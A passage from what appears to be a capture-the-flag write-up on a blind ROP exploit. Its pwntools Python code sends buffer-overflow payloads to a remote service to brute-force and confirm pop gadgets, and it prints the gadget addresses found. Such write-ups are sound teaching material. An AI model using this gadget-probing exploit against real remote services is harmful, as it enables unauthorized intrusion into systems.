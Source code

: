 ```py
        io.send(payload)
        mssg = io.recv(0x1000, timeout=0.2)
        if b'Do not dump' in mssg:
            pwn.log.success("Found pop gadget at: " + hex(i))
            possible.append(i)
        io.close()
    return possible
```

This gave me a possible list of addresses that could contain this gadget

```bash
[+] Found pop gadget at: 0x4007ba
[+] Found pop gadget at: 0x40070e
```

To confirm the gadget, I added the offset to the address so that it pops less values than before and check which is correct.

```py
def CheckBROP():
    # possible = [4196110, 4196282]
    # for i in possible:
    #     io = pwn.remote(HOST, PORT, level='critical')
    #     payload = b'A'*OFFSET
    #     payload += pwn.p64(i + 7)  # possilbe pop 2 gadget
    #     payload += pwn.p64(0)  # pop rsi
    #     payload += pwn.p64(0)  # pop r15
    #     payload += pwn.p64(DUMP_FUNC)
    #     io.send(payload)
    #     mssg = io.recv(0x1000, timeout=0.2)
    #     if b'Do not dump' in mssg:
    #         pwn.log.success("Found pop gadget at: " + hex(i))
    #     io.close()
    possible = [4196110, 4196282]
    for i in possible:
        io = pwn.remote(HOST, PORT, level='critical')
        payload = b'A'*OFFSET
        payload += pwn.p64(i + 9)  # possilbe pop 2 gadget
        payload += pwn.p64(0)  # pop rdi
        payload += pwn.p64(DUMP_FUNC)
        io.send(payload)
        mssg = io.recv(0x1000, timeout=0.2)
        if b'Do not dump' in mssg:
            pwn.log.success("Found pop gadget at: " + hex(i))
        io.close()
```

From this I got the correct address of the BROP gadget and I added it to the global variables.

```py
BROP_GADGET = 0x4007ba
```

With this function we have control over `RDI` and we can use it to set arguments to functions.
